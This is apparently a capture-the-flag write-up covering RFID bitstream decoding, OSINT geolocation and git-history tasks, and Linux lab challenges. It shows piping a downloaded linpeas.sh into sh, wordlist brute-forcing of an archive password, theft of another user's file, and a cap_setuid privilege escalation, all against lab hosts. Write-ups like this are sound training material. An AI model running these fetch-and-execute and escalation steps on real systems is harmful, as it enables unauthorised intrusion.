If we search for "Manchester RFID Decode", we'll find EM4100.

- [www.priority1design.com.au/em4100_protocol](https://www.priority1design.com.au/em4100_protocol.html)



And if we try searching for the header (9 consecutive "1" bits), we’ll find that this header appears repeatedly.



Actually, if we just tell ChatGPT what it is and what the output should be, the AI will take a moment to realize that its output is a 10-character hexadecimal string directly derived from the 10 groups/frames of the EM4100.

```py
import re

file = "C5_rawbits.txt"
pattern = re.compile(r"111111111[01]{54}0")
raw = open(file, "r").read().split("Decoded bitstream:")[1].strip().replace("\n", "")

matches = pattern.findall(raw)
data = list(set(matches))

for f in data:
    print("---")
    print(f)
    data = f[9:-5]
    groups = [data[i:i + 5][:-1] for i in range(0, len(data), 5)]
    print(groups)
    print("".join([format(int(d, 2), "X") for d in groups]))
```


Flag: `CSG_FLAG{C0DEC0FFEE}`

---

# OSINT

## O1: Japanese geography

`https://cyberseagame2025.s3.us-east-2.amazonaws.com/japan-map/index.html?userId=[]&token=[]`

### Japan - O1-Q1: Select "To", "Do" and "Fu"

#### Description

There are four types of prefectures in Japan: "To" (metropolitan), "Do" (provincial), Fu (prefectural), and "Ken" (prefecture), but the majority of prefectures are classified as “Ken”.
Select all prefectures except “Ken”s from the map of Japan.

#### Details

After you selected all the prefectures except "Ken", select "O1-Q1" from pull-down menu and click "Submit".

Click \[VERIFY] button on this page. If you selected correct prefectures, next challenge will be opend.

#### Solve


### Japan - O1-Q2: Prefectures without universities named after the prefecture

#### Description

Select all prefectures without universities named after the prefecture from the map of Japan.

#### Details

You need to select "O1-Q2" from pull-down menu first. After you selected all the prefectures without universities named after the prefecture, click "Submit".

Click \[VERIFY] button on this page. If you selected correct prefectures, next challenge will be opend.

#### Solve


### Japan - O1-Q3: Prefectures without natural lakes

#### Description

Select all prefectures without natural lakes from the map of Japan.

#### Details

You need to select "O1-Q3" from pull-down menu first. After you selected all the prefectures without natural lakes, click "Submit".

Click \[VERIFY] button on this page. If you selected correct prefectures, next challenge will be opend.

#### Notes

Lakes do not include swamps, ponds and mudflats.

#### Solve


### Japan - O1-Q4: Prefectures without Shinkansen statioins

#### Description

Select all prefectures without Shinkansen stations from the map of Japan.

#### Details

You need to select "O1-Q4" from pull-down menu first. After you selected all the prefectures without Shinkansen stations, click "Submit".

Click \[VERIFY] button on this page. When you selected correct prefectures, you will complete this challenge!

#### Solve


## Guess the geolocation (Canada - O3: Guess the geolocation)

### Description

Guess the geolocation

### Details

Please identify the location where this photo was taken and provide the geographic coordinates (latitude and longitude), rounded to three decimal places. Use standard rounding rules on the fourth decimal place to ensure accuracy of approximately 50 meters.

### Notes

Example: if your answer is (12.3455, -12.3454), please input “CSG_FLAG{12.346,-12.345}” as the flag. Do not include any space.

### Solve

`O4_KIMG0895.jpg`


**Analyze**


The sign tells us it's

- Route 238
- Abashiri 295 km
- Esashi 90 km
- Hamatobetsu 61 km

There’s a curve right after the sign, and a red Idemitsu gas station nearby.
This is in Japan - and that alone is enough to narrow down the location quite a bit.

We’ll search using Idemitsu for convenience

- `Idemitsu near Nat'l Route 238`


Starting from the first gas station - not the right one yet. After looking around a bit, we realized we’re on the correct route, and guessed that the place we’re looking for is farther ahead - the next gas station.


Found it. Now all that’s left is to scroll around to pinpoint the exact location.


Use round 3 precision.

Flag: `CSG_FLAG{45.522,141.939}`

## GitHub (Argentina - O2-Q1: GitHub)

### Description

While investigating a potentially malicious cryptocurrency project, we discovered a GitHub repository. Although it is no longer active, it might hold clues to the developer’s identity. Could you help us to extract the hidden email address associated with this GitHub project?

URL: <https://github.com/MysteriousDevelopper>

### Notes

Flag format: CSG_FLAG{string} \
*The string is case insensitive. \
Author: kzm

### Solve


Clone the repository, then use `git log`.


Flag: `CSG_FLAG{monicahayashi9@gmail.com}`

## Secret Lesson (Argentina - O2-Q2: Secret Lesson)

### Description

We’ve discovered that this developer is running a secret programming class. It seems like the students are learning something beyond just coding skills. Can you investigate and reveal the secret behind this course?

Repository: Monica_Private_Repo \
Hint: Monica created a new branch called "dev" and merged into "main".

### Details

This challenge consists of two parts. Once you complete lesson 1 and find the flag, submit it to unlock the next challenge!

Lesson 1 Flag Format: CSG_FLAG{word}

### Solve

File: `material_by_monica.7z`

Password for the archive is the developer's email: `monicahayashi9@gmail.com`


```sh
git log --all --graph --oneline
```


Commit: `a3740ee3594aeebc6f600490b4d458c0c946ad5e`

Lesson 1 Flag: `CSG_FLAG{phishing}`

### Lesson 2: Secret Lesson

#### Description

Can you reveal the secret hidden in this course?
You already know who the instructor is, right?
If you haven’t done so, look for the repository for the course.

#### Details

You’ll need to download lesson materials from the repository.
Extract the material and find the secret keyword.
Flag format: CSG_FLAG{Lesson 1 Flag-Lesson 2 Flag}

#### Notes

Flag format: CSG_FLAG{Lesson 1 flag-Lesson 2 flag} \
Example: CSG_FLAG{phishing-secret_keyword} \
Author: kzm

#### Solve


Use wordlist to brute force 7z password.

Password: `MyFavoriteP@ssword1234`


You have received text file.

Base64 decoded: `knowledge_is_profit`

- Lesson 1: `phishing`
- Lesson 2: `knowledge_is_profit`

Flag: `CSG_FLAG{phishing-knowledge_is_profit}`

---

# MISC

## Hallucination in another world (South Africa - M3: Hallucination in another world)

### Description

You are provided with a CSV containing a list of domains with empty cells.
Your task is to fill in all the empty cells and submit the completed sheet to the server to obtain the flag.

The CSV is available from: <https://o5ey6dthcg.execute-api.ap-southeast-1.amazonaws.com/upload-report>

### Details

Although you can complete this task manually, it is time-consuming.
Therefore, in this challenge, you are allowed to use a generative AI service of your choice.
However, please be aware that current generative AI technologies can produce hallucinations.
Hallucinations are more likely to occur if the AI model is unfamiliar with the content, for example, content in the Japanese language.

### Instruction

Follow the format in the report template. Do not add or remove any rows or columns. \
"Prefecture" must be expressed in English. \
"Telephone" numbers must be formatted as "digits"-"digits"-"digits" without the country code (e.g., 03-4330-7600). \
The phone number must be the main phone number for the organization, not a call center phone number. \
Ensure that there are no spaces and 2-byte characters in the data. The checker verifies the data by exact match. \
Do not alter the order of the domains. The checker program will return "NG" if the order is broken.

This is not a pwn challenge. Do not try to test any vulnerability of the checker program.

### Solve


```csv
Domain,Prefecture,HQ Telephone
trendmicro.co.jp,Tokyo,03-4330-7600
souma-g.co.jp,,
marueki.jp,,
aspace-mgt.jp,,
tanpopomirai.com,,
asatetu.com,,
oreno.tyonmage.com,,
senkouji.org,,
yamamotoseiyaku.com,,
miraiku-jihatsuhoukago.com,,
kanzaki-mm.com,,
aya-g.co.jp,,
ntvhd.co.jp,,
tvk-yokohama.com,,
tv-hokkaido.co.jp,,
milkhompo-biz.com,,
bethel-corp.com,,
ksdh.or.jp,,
kdh.or.jp,,
group.gmo,,
note.jp,,
uec.ac.jp,,
keishicho.metro.tokyo.lg.jp,,
city.nagaoka.niigata.jp,,
interconti-tokyo.com,,
t-doitsumura.co.jp,,
kotoura-umaimonya.com,,
imabari-shimanami.jp,,
takinomiya.com,,
```


It seems normal to be asked to find the answer to get the flag, but after I tried searching for it for a long time, I accidentally deleted some records - and surprisingly, there was no error.


Try leaving only one record.

Flag: `CSG_FLAG{Dawn_Of_The_Human_Being}`

## Stop the server! (Australia - M1: Shutdown the server out of the control)

### Description

We found an ancient server going out of control. We need to shutdown it immediately, but we cannot contact the administrator right away. We just have login as a normal user. How can we shutdown it?
You can login the server by ssh with given certificate from AWS's Fleet Manager.

### Details

You can login the server by ssh with given certificate from AWS's Fleet Manager.
This challenge does not provide a flag. Once done, plase click the button here.

### Credentials

Target FQDN: shtdwn.csg2025.local \
Username: user \
Password: IamTheUser!

### Instructions

You can see the server enabled shutdown account. So use “su shutdown” to shutdown.

### Solve


First, use `linpeas` to scan the target

```sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```


User Data of EC2 is leaked (launch script).

You will see the `su shutdown` command that allows any user to shut down the machine


If you don't cheat, you'll know this from `/etc/passwd`

Ok, we just run `su shutdown`


Back to gameboard and click verify


## M4-Q1 : Open your password (Madagascar - M4-Q1: Open your password)

### Description

Your first mission is to find another user's password.

### Details

You can login the target: m4ssh.csg2025.local via your attackbox.

### Notes

User : `user0` \
Password : `LddmujNzZ^OQa^1B` \
Flag format : `CSG_FLAG{another user's password}`

### Solve


First, EC2 User Data is leaked, scanned by LinPEAS.


You’ll see a file named `-`, which you can read using `cat ./-`

Flag: `CSG_FLAG{yIp5OL53Bg8sa^1B}`

### Madagascar - M4-Q2: Layered Secrets

#### Description

Your next mission is to search for a file located in another user's home directory.

#### Details

Within user1's home directory lies a file that has been compressed multiple times.
If you pass the decoded string from that file to a specific encryption session, you can obtain another user's private key.

#### Notes

Flag format : `CSG_FLAG{Full path of the file}`

#### Solve


You’ll notice we don’t have write permissions for our own home directory, but /tmp belongs to everyone.


To make things easy, we stole the file.


There will be a file in password_layers/xxx which is a multi-layered file:

```txt
6uwkjteb7k\xv28mrze69\xv28mrze69~\xv28mrze69~~\khloetq5kt
```

Layers: zip\tar\xz\bzip2\gzip and base64.
You can cheat/bypass it by using the 7z GUI - it’s much faster.


Key: `RfKH5BFMiZ5Twrb`


Next, there will be a file in /opt/ctf that reads a PEM key and is running. We can connect to it over TLS and send the secret - the secret is the password layers we obtained.


Then take the PEM you obtained to the remote host - you'll find a filename there that is the flag.

Flag: `CSG_FLAG{/home/user2/MfrF4ndeHyoea^1B.txt}`

### Madagascar - M4-Q3: The Capstone Exploit

#### Description

Your final mission is to capture the flag.

#### Details

You already know where the flag is, right?
Let's gain the privilege to open this flag.

#### Solve


```sh
getcap -r / 2>/dev/null | grep -E cap_setuid
```

For the final challenge it's very easy: just scan for cap_setuid, find the Python binary that has it, then run it with setuid 0 to read flag.txt.

Flag: `CSG_FLAG{ABB_^R^_XeY^a^1B}`

---

This writeup was actually written last year but was never published. The content doesn't cover every challenge (even though I initially intended to write all of them), and honestly, I don't really remember which challenges were solved back then either.
